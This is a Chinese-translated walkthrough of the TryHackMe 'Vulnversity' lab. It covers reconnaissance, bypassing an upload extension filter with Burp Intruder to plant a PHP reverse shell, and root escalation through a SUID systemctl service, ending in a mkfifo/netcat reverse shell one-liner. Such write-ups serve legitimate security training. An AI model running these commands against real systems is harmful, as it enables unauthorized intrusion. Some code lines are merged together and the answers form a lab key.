# TryHackMe: Vulnversity

> 原文：<https://infosecwriteups.com/tryhackme-vulnversity-70ceeb601757?source=collection_archive---------0----------------------->


这个房间主要关注主动侦察、web 应用攻击和权限提升。

**【任务 1】部署机器**

**【任务二】侦察**

在给定的机器上启动 nmap 扫描:

```
nmap -sC -sV -oN nmap/initial <ip>
```



初始计数

我们可以看到端口 21、22、139、445、3128 和 3333 是打开的。

可以清楚地看到，操作系统是 Ubuntu，WebServer(端口 3333)在其上运行。

> 扫描盒子，有多少端口是开放的？

```
6
```

> 机器上运行的是哪个版本的 squid 代理？

```
3.5.12
```

> 这台机器最有可能运行的操作系统是什么？

```
Ubuntu
```

> web 服务器运行在哪个端口上？

```
3333
```

我们探索运行在 web 服务器上的 http 网站。



站点上没有任何功能/按钮可用，视图源代码中也没有任何有趣的内容。



**【任务三】使用 GoBuster** 定位目录

我们在端口为 3333 的给定 ip 上运行 gobuster 扫描:

```
gobuster dir -u <ip>:<port> -w <wordlist-path>
```



Gobuster 扫描

我们找到一个/internal 目录，进一步的枚举指向/internal/uploads 目录。



我们在/内部目录中找到一个上传表单。



> 有上传表单页面的目录是什么？

```
/internal/
```

**【任务 4】危害网络服务器**

我们试图上传一个 php 反向外壳脚本，但扩展被过滤。



我们启动 burp 套件，并在 foxy 代理中启用它。为狙击手攻击创建一个带有不同 php 扩展名的文件。



我们捕获上传请求，然后发送给入侵者。



我们将有效载荷作为一个简单的列表加载。



我们在有效载荷的位置选项卡中添加文件扩展名。



我们开始攻击，然后得到结果。有趣的是，我们看到每一个扩展都产生 200 的状态，但是。phtml 扩展与其他扩展不同。



我们尝试上传一个 shell.phtml(php 反向 shell)并成功上传。

我们启动一个 netcat 监听器:

```
nc -lvp 4444
```



然后，我们转到/internal/uploads，单击我们上传的文件。我们的机器上有一个反向外壳。我们稳定反向外壳。


目前我们是万维网数据用户。如果我们查看/etc/passwd 文件，我们会发现一个名为 **bill** 的用户。我们可以直接去/home/bill 目录，找到我们的 user.txt 标志。

> 管理 web 服务器的用户名是什么？

```
bill
```

> 什么是用户标志？

```
8bd**************************edb
```

**[任务 5]权限提升**

我们在系统中查找 SUID 的档案。SUID 向用户授予临时权限，允许其在文件所有者(而不是运行程序/文件的用户)的许可下运行程序/文件。

```
find / -perm -u=s -type f 2>/dev/null
```



我们看到/bin/systemctl 是一个 SUID 二进制文件。我们可以用这个来获得特权。我们查看 gtfobins 并搜索 systemctl。

参考:[[https://gtfobins.github.io/gtfobins/systemctl/](https://gtfobins.github.io/gtfobins/systemctl/)



我们创建一个临时服务，然后用它来查看 root.txt 文件。

```
TF=$(mktemp).serviceecho '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' >$TF/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```



同样，我们可以获得一个具有 root 权限的反向 shell。

参考:[[http://pentest monkey . net/cheat-sheet/shell/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)]

```
ken=$(mktemp).serviceecho '[Service]
ExecStart=/bin/sh -c "/tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| nc <ip> <port>"
[Install]
WantedBy=multi-user.target' >$ken/bin/systemctl link $ken
/bin/systemctl enable --now $ken
```



这将在我们的机器上产生一个反向 shell。


> 在系统上，搜索所有 SUID 文件。什么文件比较突出？

```
/bin/systemctl
```

> 成为 root 并获取最后一个标志(/root/root.txt)

```
a58**************************fd5
```

TryHackMe 简介:【https://tryhackme.com/p/kaneki10007 T2